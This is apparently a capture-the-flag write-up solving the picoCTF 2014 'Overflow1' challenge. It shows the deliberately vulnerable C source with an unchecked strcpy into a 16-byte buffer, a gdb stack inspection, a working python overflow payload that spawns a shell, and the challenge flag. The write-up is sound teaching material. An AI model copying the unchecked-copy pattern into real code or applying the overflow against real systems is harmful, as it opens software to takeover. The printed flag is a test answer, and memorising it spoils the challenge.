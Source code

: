 ```yaml
---
layout: post
title: "picoCTF 2014 Overflow1"
date: 2014-11-09 19:50:05 -0500
author: [et0x]
comments: true
categories: [picoctf]
---
```


### Solved by et0x

Overflow1 is a 50 point binary exploitation challenge.


> This problem has a buffer overflow vulnerability! Can you get a shell, then use that shell to read flag.txt? You can solve this problem interactively here, and the source can be found here.

The source for the binary is the following:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    int secret = 0;
    strcpy(buf, input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}

```

So the goal here is to fill the "buf" array with 16 characters, and overflow the next four bytes with "0xc0deface" so that we execute the give_shell() function.  This should be easy enough, lets look at it in gdb.

First, lets disassemble the "vuln" function.

```bash
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x08048512 <+0>:	push   %ebp
   0x08048513 <+1>:	mov    %esp,%ebp
   0x08048515 <+3>:	sub    $0x38,%esp
   0x08048518 <+6>:	movl   $0x0,-0xc(%ebp)
   0x0804851f <+13>:	mov    0x8(%ebp),%eax
   0x08048522 <+16>:	mov    %eax,0x4(%esp)
   0x08048526 <+20>:	lea    -0x1c(%ebp),%eax
   0x08048529 <+23>:	mov    %eax,(%esp)
   0x0804852c <+26>:	call   0x8048390 <strcpy@plt>
   0x08048531 <+31>:	cmpl   $0xc0deface,-0xc(%ebp)
   0x08048538 <+38>:	jne    0x8048541 <vuln+47>
   0x0804853a <+40>:	call   0x80484dd <give_shell>
   0x0804853f <+45>:	jmp    0x8048554 <vuln+66>
   0x08048541 <+47>:	mov    -0xc(%ebp),%eax
   0x08048544 <+50>:	mov    %eax,0x4(%esp)
   0x08048548 <+54>:	movl   $0x804861b,(%esp)
   0x0804854f <+61>:	call   0x8048370 <printf@plt>
   0x08048554 <+66>:	leave  
   0x08048555 <+67>:	ret
```

Let's place a breakpoing at 0x08048531 so that we can see whats on the stack, and view the data as the "cmpl" instruction sees it.

```
(gdb) b * 0x08048531
Breakpoint 1 at 0x8048531
(gdb) run AAAAAAAAAAAAAAAA
Starting program: /home/overflow1/overflow1 AAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048531 in vuln ()

(gdb) x/20xb $ebp-0xc-16
0xffffd6cc:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd6d4:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd6dc:	0x00	0x00	0x00	0x00
```
And now, with more than 16 bytes...

```
0xffffd6cc:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd6d4:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd6dc:	0x41	0x41	0x41	0x41
```

So now we see that we can overflow the buffer.  Let's fill the last four bytes (secret) with 0xc0deface. Remember to put the bytes in little-endian order.

```bash
pico1139@shell:/home/overflow1$ ./overflow1 $(python -c 'print "A"*16+"\xce\xfa\xde\xc0"')
$ id
uid=11066(pico1139) gid=1002(overflow1) groups=1017(picogroup)
$ cat flag.txt
ooh_so_critical
```

So the flag is **ooh_so_critical**

